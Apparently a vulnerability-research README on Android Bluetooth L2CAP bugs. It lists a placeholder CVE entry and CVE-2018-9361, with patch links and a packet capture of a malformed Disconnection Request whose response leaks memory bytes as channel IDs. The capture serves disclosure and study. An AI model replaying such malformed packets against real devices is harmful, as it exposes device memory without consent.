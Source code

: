 
## CVE-2018-????

### Vuln

### Diff
https://android.googlesource.com/platform/system/bt/+/f1c2c86080bcd7b3142ff821441696fc99c2bc9a%5E%21/#F0

### Request

### Response


## CVE-2018-9361

### Vuln
Destination CID and Source CID leak out bytes in L2CAP Disconnection Response

### Diff
https://android.googlesource.com/platform/system/bt/+/70d86c36a57aa860924c7475f59a947aa234e834%5E%21/#F0

### Request
Mar 28 19:49:19.752  L2CAP Send       0x0047  D4:61:2E:12:67:7A  Disconnection Request  SEND  
	Channel ID: 0x0001  Length: 0x0004 (04) [ 06 00 00 00 ]
	L2CAP Payload:
	00000000: 0600 0000                                ....
Mar 28 19:49:19.752  ACL Send         0x0047  D4:61:2E:12:67:7A  Data [Handle: 0x0047, Packet Boundary Flags: 0x0, Length: 0x0008 (8)]  SEND  
	Data [Handle: 0x0047, Packet Boundary Flags: 0x0, Length: 0x0008 (8)]
	Packet Boundary Flags: [00] 0x00 - Reserved for future use
	Broadcast Flags: [00] 0x00 - Point-to-point
	Data (0x0008 bytes)
Mar 28 19:49:19.752  ACL Send         0x0000                     00000000: 4700 0800 0400 0100 0600 0000            G...........  SEND  

### Response
Mar 28 19:49:19.766  L2CAP Receive    0x0047  D4:61:2E:12:67:7A  Disconnection Response  RECV  
	Identifier: 0x00
	Size: 4 (0x0004)
	Destination CID: 0x487E
	Source CID: 0x3A6C
	Channel ID: 0x0001  Length: 0x0008 (08) [ 07 00 04 00 7E 48 6C 3A ]
	L2CAP Payload:
	00000000: 0700 0400 7e48 6c3a                      ....~Hl:
Mar 28 19:49:19.766  ACL Receive      0x0047  D4:61:2E:12:67:7A  Data [Handle: 0x0047, Packet Boundary Flags: 0x2, Length: 0x000C (12)]  RECV  
	Data [Handle: 0x0047, Packet Boundary Flags: 0x2, Length: 0x000C (12)]
	Packet Boundary Flags: [10] 0x02 - First packet of Higher Layer Message (i.e. start of an L2CAP packet)
	Broadcast Flags: [00] 0x00 - Point-to-point
	Data (0x000c bytes)
Mar 28 19:49:19.766  ACL Receive      0x0000                     00000000: 4720 0c00 0800 0100 0700 0400 7e48 6c3a  G ..........~Hl:  RECV  

